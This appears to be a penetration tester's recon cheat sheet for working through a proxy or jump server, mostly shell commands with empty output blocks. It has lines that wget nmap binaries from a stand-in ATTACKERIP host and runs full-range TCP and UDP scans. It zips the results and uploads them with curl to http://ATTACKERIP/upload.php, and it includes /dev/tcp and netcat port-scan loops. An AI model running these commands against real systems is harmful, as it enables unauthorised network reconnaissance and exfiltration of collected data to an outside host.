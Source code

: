 
**Proxy**

If connected via proxy, run `nmap` enumeration scans from jump server. Download `static-toolbox` binaries from https://github.com/ernw/static-toolbox/releases and place in webroot, if not available already.

```bash
wget http://ATTACKERIP/tools/static-toolbox/nmap-7.91SVN-x86_64-portable.tar.gz
mkdir -p nmap/recon ; mv nmap-7.91SVN-x86_64-portable.tar.gz nmap ; cd nmap ; tar -zxf nmap-7.91SVN-x86_64-portable.tar.gz

wget http://ATTACKERIP/tools/static-toolbox/nmap-7.91SVN-x86-portable.tar.gz
mkdir -p nmap/recon ; mv nmap-7.91SVN-x86-portable.tar.gz nmap ; cd nmap ; tar -zxf nmap-7.91SVN-x86-portable.tar.gz
```


```bash
IP="" ; ./run-nmap.sh -n -Pn -sS -T4 -p T:- -A --version-all --osscan-guess --min-parallelism 100 --min-rate 1000 --max-scan-delay 100ms --reason -oA recon/nmap-${IP}-tcp-initial ${IP}
```

```text

```


```bash
IP="" ; sudo ./run-nmap.sh -n -Pn -sU -T4 -p U:1-500 --min-parallelism 100 --min-rate 1000 --max-scan-delay 100ms --reason -oA recon/nmap-${IP}-udp-initial ${IP}
```

```text

```


```bash
zip -r recon.zip recon
tar -czf recon.tgz recon

curl -F "file=@recon.zip" http://ATTACKERIP/upload.php
curl -F "file=@recon.tgz" http://ATTACKERIP/upload.php
```


```bash
IP="" ; for i in {1..65535} ; do (echo < /dev/tcp/${IP}/${i}) &>/dev/null && printf "[+] Open Port at : %d\n" "${i}" ; done
```

```text

```

```bash
IP="" ; nc -vz -u -w 1 ${IP} 20-500
```

```text

```
